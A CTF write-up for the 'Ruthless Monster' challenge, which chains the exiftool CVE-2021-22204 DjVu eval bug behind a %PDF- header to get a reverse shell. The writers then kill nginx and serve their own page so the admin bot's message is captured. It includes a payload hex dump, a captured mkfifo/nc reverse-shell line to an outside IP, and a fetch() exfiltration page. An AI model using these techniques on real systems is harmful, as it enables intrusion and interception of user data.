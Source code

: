 # Ruthless Monster

**Category**: web, misc \
**Solves**: 13 \
**Points**: 333 \
**Author**: geolado

Please, help me! The bad guys are using this server to send secret evil files. Could you intercept one of these files to me?

> PS: The servers are rebooted every N minutes \
> PS2: The bad guys send the file every 15 seconds.

Files: _a zip file with some source code_<br>
Server: <https://ruthless.monster>

## Overview

There are only two files in the zip: a `Dockerfile` and `html/exif/index.php`.

The `/exif` page lets you upload a PDF, checks that the file starts with `%PDF-`, then runs:

```php
echo shell_exec('timeout 10s exiftool ' . escapeshellarg($target_file));
```

The `Dockerfile` is very short:

```dockerfile
FROM privatebin/nginx-fpm-alpine

COPY html /var/www

USER root

RUN chown root:root -R /var/www
RUN chown root:root -R /srv/
RUN chmod 755 -R /srv/
RUN chmod 755 -R /var/www
RUN chmod 777 -R /srv/data/

WORKDIR /root
RUN apk add perl make
RUN wget https://exiftool.org/Image-ExifTool-12.23.tar.gz && tar -xzf Image-ExifTool-12.23.tar.gz && rm Image-ExifTool-12.23.tar.gz &&\
cd Image-ExifTool-12.23 && perl Makefile.PL && make test && make install && mkdir /uploads && chmod 777 /uploads

WORKDIR /var/www
USER 65534:82
```

I remembered seeing a recent [CVE](https://hackerone.com/reports/1154542) on
exiftool that led to RCE, and this challenge used version 12.23, which is
vulnerable.

So the goal of the challenge is:
1. Get RCE through exiftool
2. Intercept the flag which gets posted to the PrivateBin every 15 seconds

## Solution

Solved with @jerieeee, who did most of the work

### Part 1: RCE through exiftool

- I used this [public PoC](https://github.com/convisoappsec/CVE-2021-22204-exiftool)
- Ran `python3 exploit.py`
- Prepended `%PDF-` to the file
- Ran `exiftool image.pdf`, and it gave me a reverse shell.

---

Of course we also had to spend around 3 hours trying a bunch of stupid stuff and reading
through the exiftool's source code (perl 🤢) before we got RCE to work.

First of all, the vulnerability is only in the DjVu module:

```perl
# convert C escape sequences (allowed in quoted text)
$tok = eval qq{"$tok"};
```

So we have to trick `exiftool` into loading the DjVu module even though the
file must start with `%PDF-`.

At first this seemed impossible, but it turns out exiftool has a special case
for `JPEG` files, which can be abused to make exiftool parse magic bytes even
when they don't appear at the start of the file.

```perl
# last ditch effort to scan past unknown header for JPEG/TIFF
next unless $buff =~ /(\xff\xd8\xff|MM\0\x2a|II\x2a\0)/g;
$type = ($1 eq "\xff\xd8\xff") ? 'JPEG' : 'TIFF';
my $skip = pos($buff) - length($1);
$dirInfo{Base} = $pos + $skip;
$raf->Seek($pos + $skip, 0) or $seekErr = 1, last;
$self->Warn("Processing $type-like data after unknown $skip-byte header");
$unkHeader = 1 unless $$self{DOC_NUM};
```

So in the end our payload looked like this:

```xxd
00000000: 2550 4446 2dff d8ff e000 104a 4649 4600  %PDF-......JFIF.
00000010: 0101 0100 4800 4800 00ff e101 c045 7869  ....H.H......Exi
00000020: 6600 004d 4d00 2a00 0000 0800 0501 1a00  f..MM.*.........
00000030: 0500 0000 0100 0000 4a01 1b00 0500 0000  ........J.......
00000040: 0100 0000 5201 2800 0300 0000 0100 0200  ....R.(.........
00000050: 0002 1300 0300 0000 0100 0100 00c5 1b00  ................
00000060: 0200 0001 5e00 0000 5a00 0000 0000 0000  ....^...Z.......
00000070: 4800 0000 0100 0000 4800 0000 0141 5426  H.......H....AT&
00000080: 5446 4f52 4d00 0001 5144 4a56 5549 4e46  TFORM...QDJVUINF
00000090: 4f00 0000 0a00 0100 0118 002c 0116 0142  O..........,...B
000000a0: 476a 7000 0000 0041 4e54 7a00 0001 2bff  Gjp....ANTz...+.
...
```

You can see that it starts with `%PDF-` but also has a `JFIF` header, and then
has `AT&TFORM` a little further down, which are the AIFF magic bytes. The AIFF
module will then load the DjVu module.

### Part 2: Intercepting the flag

After popping a reverse shell on the remote server, it was 4 AM on Sunday so
I went to bed and jerieeee did the rest of the challenge, so I'll try to
explain how she solved it.

First of all, we're logged in as `nobody`:

```
/var/www/exif $ id
uid=65534(nobody) gid=82(www-data)
```

We can also see that many of the processes are running as `nobody`,
specifically `nginx` and `php`.

```
PID   USER     TIME  COMMAND
    1 nobody    0:00 s6-svscan -t0 /var/run/s6/services
   36 nobody    0:00 s6-supervise nginx
   37 nobody    0:00 s6-supervise php-fpm8
   38 nobody    0:00 s6-supervise s6-fdholderd
   40 nobody    0:00 {php-fpm8} php-fpm: master process (/etc/php8/php-fpm.conf)
   51 nobody    0:00 {php-fpm8} php-fpm: pool www
   52 nobody    0:00 {php-fpm8} php-fpm: pool www
  170 nobody    0:00 [exiftool]
  173 nobody    0:00 sh -c rm /tmp/.xff;mkfifo /tmp/.ffx;cat /tmp/.ffx|/bin/sh -i 2>&1|nc 207.154.208.77 1234 >/tmp/.ffx   <-- Looks like another team's reverse shell lol
  176 nobody    0:00 cat /tmp/.ffx
  177 nobody    0:00 /bin/sh -i
  178 nobody    0:00 nc 207.154.208.77 1234
  184 nobody    0:00 /bin/sh -i
  187 nobody    0:00 {php-fpm8} php-fpm: pool www
  200 nobody    0:00 nginx: master process /usr/sbin/nginx
  201 nobody    0:00 nginx: worker process
  202 nobody    0:00 nginx: worker process
  220 nobody    0:00 ps aux
```

Since PrivateBin is supposedly a zero-knowledge pastebin, it would be difficult
to directly hijack the service and decrypt the pastes.

However, we can do this:
1. Kill all nginx processes
2. Spawn our own nginx process that hosts a malicious webpage that exfiltrates the flag to us
3. Wait for the admin bot to send the flag on our page

But we don't quite know what the admin bot will do, and there is no nginx log file saved to the disk for us to see. Fortunately, since all processes are ran under `nobody`, we can just tap into the `STDOUT` of current nginx process:

```
/var/www/exif $ cat /proc/35/fd/1
172.70.117.15 - - [30/May/2021:08:18:40 +0000] "GET / HTTP/1.1" 200 4775 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/91.0.4469.0 Safari/537.36" "157.230.54.253"
172.70.117.115 - - [30/May/2021:08:18:56 +0000] "GET /js/zlib-1.2.11.wasm HTTP/1.1" 200 61388 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/91.0.4469.0 Safari/537.36" "157.230.54.253"
172.70.117.115 - - [30/May/2021:08:18:57 +0000] "POST / HTTP/1.1" 200 140 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/91.0.4469.0 Safari/537.36" "157.230.54.253"
```

And we observed the unmistakable admin bot behavior from the `HeadlessChrome`. Since everyone has write permission to `/tmp`, we can deploy a few files there by using `printf 'file content' > /tmp/file`. 

Here's the nginx conf that was used, saved to `/tmp/conf` (we know it's port 8080 because we checked the original config at `/etc/nginx/nginx.conf`):

```nginx
worker_processes 1;
worker_rlimit_nofile 8192;
error_log /dev/null warn;
events {
  worker_connections 8000;
}
pid /run/nginx.pid;
daemon off;
timer_resolution 500ms;
http {
    default_type  application/octet-stream;
    charset_types text/css text/plain text/vnd.wap.wml application/javascript application/json application/rss+xml application/xml;
    server_tokens off;
    charset utf-8;
    keepalive_timeout 20s;
    sendfile        on;
    access_log /dev/null;
    tcp_nopush      on;
    server {
            listen 8080 default_server;
            listen [::]:8080 default_server;
            root /tmp;
            index index.html;
    }
}
```

Here's `/tmp/index.html`:

```html
<html>
<body>
<textarea id="message" name="message" cols="80" rows="25" class="form-control" spellcheck="false"></textarea>
<button id="sendbutton" type="button" class="btn btn-primary">
<span class="glyphicon glyphicon-upload" aria-hidden="true"></span> Send</button>
<script type="text/javascript">
    document.querySelector("#sendbutton").onclick = ()=>fetch("https://some.redacted.server.address/"+document.querySelector("#message").value)
</script>
</body>
</html>
```

We can then run

```
kill -9 <pid of all nginx processes> && nginx -c /tmp/conf
```

Even though there are daemons respawning nginx processes, this one will be
faster than whatever monitoring resolution they have. So eventually this server
will replace the legit server (the respawned processes will be get a
address-already-in-use error and die)

And we have intercepted their secret message to be 

```
/Ta%20aqui%20a%20flag%20:%20CTF-BR%7BPl3453_d0nt_t3ll_m3_y0u_burn3d_4_0day_0n_th1s%7D
```
URL decoding this, we get the flag

```
CTF-BR{Pl3453_d0nt_t3ll_m3_y0u_burn3d_4_0day_0n_th1s}
```